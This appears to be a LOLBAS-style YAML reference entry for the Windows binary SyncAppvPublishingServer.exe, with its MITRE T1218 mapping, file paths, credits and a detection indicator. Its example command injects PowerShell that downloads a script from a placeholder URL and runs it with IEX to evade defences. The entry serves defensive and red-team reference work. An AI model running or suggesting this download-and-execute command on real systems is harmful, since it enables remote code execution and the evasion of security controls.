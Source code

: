 ```yaml
---
Name: SyncAppvPublishingServer.exe
Description: Used by App-v to get App-v server lists
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Example command on how inject Powershell code into the process
    Usecase: Use SyncAppvPublishingServer as a Powershell host to execute Powershell code. Evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10 1709, Windows 10 1703, Windows 10 1607
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.exe
  - Path: C:\Windows\SysWOW64\SyncAppvPublishingServer.exe
Code_Sample:
  - Code:
Detection:
  - IOC: SyncAppvPublishingServer.exe should never be in use unless App-V is deployed
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
Acknowledgement:
  - Person: Nick Landers
    Handle: "@monoxgas"
---
```

